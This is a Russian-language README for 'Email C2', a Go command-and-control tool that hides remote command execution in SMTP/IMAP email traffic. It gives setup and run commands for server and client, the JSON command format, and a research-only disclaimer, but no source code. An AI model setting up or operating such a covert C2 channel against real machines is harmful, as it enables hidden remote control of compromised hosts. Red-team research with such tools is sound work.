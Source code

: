 
# Email C2 (Command & Control)

## Гайд по поднятию SMTP 
https://concrete-swift-b54.notion.site/Email-C2-14686eb850e9806f80b4cd721a44b67f?pvs=4

## Описание
Email C2 - это инструмент командного управления, использующий электронную почту в качестве скрытого канала связи. Проект разработан на языке Go 
## Особенности
- Скрытая коммуникация через SMTP/IMAP протоколы
- JSON-форматированные сообщения
- Уникальные UUID для каждой сессии
- Это не обычно
- Кросс-платформенная совместимость (Windows/Linux/macOS)

## Требования
- Go 1.16 или выше
- Доступ к SMTP и IMAP серверам ( или поднять свой)
- Учетные записи электронной почты для сервера и клиента

## Зависимости
```go
require (
    github.com/emersion/go-imap
    github.com/emersion/go-sasl
    github.com/google/uuid
    gopkg.in/gomail.v2
)
```

## Установка
1. Клонируйте репозиторий:
```bash
git clone https://github.com/puni359/C2-Email
```

2. Перейдите в директорию проекта:
```bash
cd С2-Email
```

3. Установите зависимости:
```bash
go mod download
```

## Использование

### Сервер
```bash
go run cmd/server/main.go -imap "mail.server.com:993" -smtp "mail.server.com" -email "server@example.com" -client "client@example.com" -password "server_password"
```

Параметры сервера:
- `-imap`: Адрес IMAP сервера с портом
- `-smtp`: Адрес SMTP сервера
- `-email`: Email адрес сервера
- `-client`: Email адрес клиента
- `-password`: Пароль от почтового ящика сервера

### Клиент
```bash
go run cmd/client/main.go -imap "mail.server.com:993" -smtp "mail.server.com" -email "client@example.com" -recipient "server@example.com" -password "client_password"
```

Параметры клиента:
- `-imap`: Адрес IMAP сервера с портом
- `-smtp`: Адрес SMTP сервера
- `-email`: Email адрес клиента
- `-recipient`: Email адрес сервера
- `-password`: Пароль от почтового ящика клиента

## Принцип работы
1. Клиент подключается и генерирует уникальный UUID сессии
2. Сервер отправляет команды в формате JSON (могут быть баги из за RFC акуратнее)
3. Клиент выполняет команды и отправляет результаты
4. Сервер получает и обрабатывает ответы

## Структура сообщений
```json
{
    "type": "command/response",
    "uuid": "уникальный-идентификатор-сессии",
    "content": "содержимое-команды-или-ответа",
    "timestamp": 1234567890
}
```

## Безопасность
⚠️ Важные замечания:
- Отсутствует дополнительное шифрование сообщений
- Проект предназначен для исследовательских целей
- Не рекомендуется использовать в проде (хотя вам решать 

## Планируемые улучшения
- Добавление end-to-end шифрования
- Улучшенная система логирования
- Поддержка конфигурационных файлов
- Расширенная обработка ошибок
- Улучшенный механизм аутентификации
- WinApi outlook а почему нет? 

## Отказ от ответственности
Данный инструмент создан исключительно в исследовательских и образовательных целях. Автор не несет ответственности за любое неправомерное использование данного программного обеспечения.



